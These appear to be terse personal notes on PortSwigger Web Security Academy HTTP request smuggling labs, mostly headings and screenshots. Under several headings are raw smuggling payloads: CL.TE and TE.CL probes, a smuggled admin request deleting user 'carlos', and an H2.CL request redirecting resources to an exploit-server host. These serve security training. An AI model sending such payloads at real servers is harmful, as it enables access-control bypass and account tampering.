____

# HTTP request smuggling, confirming a CL.TE vulnerability via differential responses


```
POST / HTTP/1.1
Host: 0ad900fc04a5e02480c97b4300e60060.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```




# HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```



# Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability



```
tRANSFER-ENCODING: chunked
Connection: close

3
x=y
0

GET /admin/delete?username=carlos HTTP/1.1
X-Ignore: X
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Host: localhost

x=
```

# Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability



# Exploiting HTTP request smuggling to reveal front-end request rewriting

The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the `X-Forwarded-For` header but has a different name.






# Exploiting HTTP request smuggling to capture other users' requests





# Exploiting HTTP request smuggling to deliver reflected XSS



# Response queue poisoning via H2.TE request smuggling



# H2.CL request smuggling

- CL.0 desync: h2CL|GET /favicon.ico


```
POST / HTTP/2
Host: 0ae4007e047995e985021e1b0017001d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0a85002a042a95da85241d7a010e007b.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```


# HTTP/2 request smuggling via CRLF injection
